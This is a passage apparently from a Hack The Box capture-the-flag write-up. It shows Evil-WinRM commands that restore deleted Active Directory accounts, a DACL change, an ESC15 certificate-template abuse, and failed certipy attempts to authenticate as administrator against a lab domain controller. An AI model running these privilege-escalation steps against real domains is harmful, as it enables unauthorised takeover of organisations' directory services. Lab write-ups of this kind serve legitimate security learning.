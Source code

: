 ```sh
[*] DACL modified successfully!

Not every one of these have the same permissions, the 938 has enroll webserver permissions
```sh
*Evil-WinRM* PS C:\Users\John\Downloads> restore-adobject -identity f80369c8-96a2-4a7f-a56c-9c15edd7d1e3 -NewName cert_admin3
*Evil-WinRM* PS C:\Users\John\Downloads> restore-adobject -identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf -NewName cert_admin2 
*Evil-WinRM* PS C:\Users\John\Downloads> restore-adobject -identity c1f1f0fe-df9c-494c-bf05-0679e181b358 -NewName cert_admin1
```

![alt text](../../../assets/images/ctf/events/season8-htb-25/2025-06-14-week4-tombwatcher.md/2025-06-14-week4-tombwatcher/image-1.png)

Finding the "Enrollee_Supplies_Subject" flag on this webserver template, we map this back to the below ESC15 manually, even if certipy didn't helpfully throw it in my eyeballs.  
https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc15-cve-2024-49019-arbitrary-application-policy

This certipy auth fails because the client auth is set to false. We'll be fixing that later with an overflow of this subject.


```python
!certipy auth -pfx administrator.pfx -dc-ip 10.129.6.179
```

    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Using principal: administrator@tombwatcher.htb
    [*] Trying to get TGT...
    [-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_INCONSISTENT_KEY_PURPOSE(Certificate cannot be used for PKINIT client authentication)


The ldap shell tries to use the forged server authentication flag in the subject, but the ssl on the server side is too weak for my clients right now even though the newer version of certipy has the ALL:SECURE_LEVEL=0


```python
!certipy auth -pfx administrator.pfx -ldap-shell -dc-ip 10.129.6.179
```

    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    